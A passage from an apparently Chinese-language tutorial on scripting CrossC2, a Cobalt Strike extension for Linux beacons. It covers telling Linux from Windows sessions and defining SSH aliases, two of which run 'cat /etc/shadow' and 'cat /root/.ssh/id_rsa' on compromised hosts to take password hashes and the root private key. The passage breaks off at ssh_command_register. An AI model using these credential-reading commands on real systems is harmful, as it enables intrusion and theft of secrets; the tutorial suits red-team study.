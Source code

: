 官方文档：https://gloxec.github.io/CrossC2/zh_cn/

会话类型的判断 
--------

当我们上线主机后，可以使用 -isssh 数据模型检查是否为 Liunx 主机，它接受一个参数

`$1` 信标的会话 ID，如果是的话就执行下面的代码或者函数

我们来判断一下我们的主机是否为 Liunx 还是 Win

```
command what {	foreach @ID (beacon_ids()){		if (-isssh @ID){			println(@ID." 是liunx主机"." 机器名是：".beacon_info(@ID,"computer")." 用户名是：".beacon_info(@ID,"user"));		}		else{			println(@ID." 是windo主机 "." 机器名是：".beacon_info(@ID,"computer")." 用户名是：".beacon_info(@ID,"user"));		}		}}
```

运行一下：

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzDxJ1g3JhcaY4KQAQpVH99OSFnxImNJBB0gOrSw60AjMrianduLbL8jqweetwMvWiaF3EjTMiaxOwwKg/640?wx_fmt=png)

判断出了我们的主机信息

SSH Aliases 
------------

> 和 beacon alias 一样，我们也可以为 liunx 主机创建 SSH 控制台命令，比如查看我们的 /etc/password：

下面的 `$1` 是信标的会话 ID

```
ssh_alias hashdump {	if (-isadmin $1) { # 判断是否为管理员，因为password非管理员不等查看		binput($1,"导出passwod的HASH：")		bshell($1, "cat /etc/shadow");	}	else {		berror($1, "你不是管理员！！");	}}
```

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzDxJ1g3JhcaY4KQAQpVH99OicZ4I0HBYeSOWxYUzAgJ31lpIoN4AdqPibT3GUN65utpmF0tLCKia0vrQ/640?wx_fmt=png)

当然你也可以写其他命令，bshell 数据模型是用来执行命令的，他需要的参数如下：

`$1` 信标的会话 ID

`$2` 需要执行的命令

比如我们查看 liunx 主机的 SSH 密匙的信息：

```
ssh_alias ssh_demo{	binput($1,"打印SSH私钥信息");	bshell($1,"cat /root/.ssh/id_rsa");}
```

运行：

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzDxJ1g3JhcaY4KQAQpVH99OU3nrWic6VISqXZuSfUbU8eq0QuysibUoq5pBicT8xL316iaJcthqsic3IzQ/640?wx_fmt=png)

ssh_command_register 
---------------------

当自定义一个 ssh 命令 以后，只有自己知道这个 命令的具体使用方式，当想要所有人都知道这条命令的含义的时候，我们可以使用 ssh_command_register 数据模型 显示帮助信息，他需要接受三个参数
